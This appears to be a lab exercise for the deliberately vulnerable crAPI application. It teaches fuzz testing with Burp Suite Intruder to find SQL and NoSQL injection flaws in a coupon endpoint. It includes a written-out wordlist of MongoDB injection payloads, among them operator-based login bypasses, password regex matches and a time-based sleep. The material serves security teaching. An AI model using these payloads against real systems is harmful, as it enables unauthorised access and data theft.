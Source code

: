 # crAPI Fuzzing input 
The purpose of these exercise is to introduce the concept of _Fuzz testing_.
Fuzz testing is a technique where input data that is either invalid, unexpected or random
is used as input for an application. The fuzz test is automated by software, which provide
a fast way of input a lot of different data.
  
There are 2 overall approaches to fuzz data. Random generated data (dynamic combinations of characters, numbers and so on), and
using premade wordlists. The latter is  by far the fastest approach, and the most suitable for fuzz testing web applications and alike.
  
In previous exercises you have already encountered and used fuzz testing. The dictionary attack you used for basic authentication is
fuzz test approach, using data from a wordlist. The approach for API enumeration also depended on fuzzing the URL path.    
A similar approach can be used for discovering potential vulnerabilities in a web application,
by fuzzing the body of a request. In these  exercises we will use this approach to discover potentiel SQL Injection vulnerabilities.


## prerequisites
Prior to starting this exercise you should have completed [Exercise 6 - basic authentication attacks](6_Basic_Token_Attacks.md),
to ensure you have experience with fuzzing tools (E.g. Burp suite intruder).

## Discovering possible SQL injection vulnerability with fuzzing
In this exercise you will attempt to discover (not abuse) a SQL (or NoSQL) vulnerability using fuzzing.
crAPI have the option of redeeming discount coupons, let try and see if we can abuse that endpoint.
  
1. In Burp suite Capture at request for coupon validation
2. Send the request to intruder
3. Set the payload to be the value of _coupon_ .
4. Use the wordlist Generic-SQLI from seclists as payload
5. Observe to responses, what are the baseline lengths and response codes, which should be ignored?
The general pattern that be observed here, is which content length should be ignored, and which response
code with this content length should be ignored. 
  
If there is not hits, maybe they are not using a SQL database. Let try with some NoSql queries also.

_With the NOsql injection attack, Encapsulating shuold be omitted" "_

1. Create a small wordlist for noSQL, with the values below:
```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
|| 1==1//
|| 1==1%00
}, { password : /.*/ }
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';sleep(5000);
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
{"$ne": null}

```
2. change the payload to the created wordlist file (clear the payload before adding the new file, or else this will take a while)
3. Execute and observe, which create status codes not similar to the baseline?

You should discover at least 1 potential vulnerability. But we will not attempt to abuse this yet.




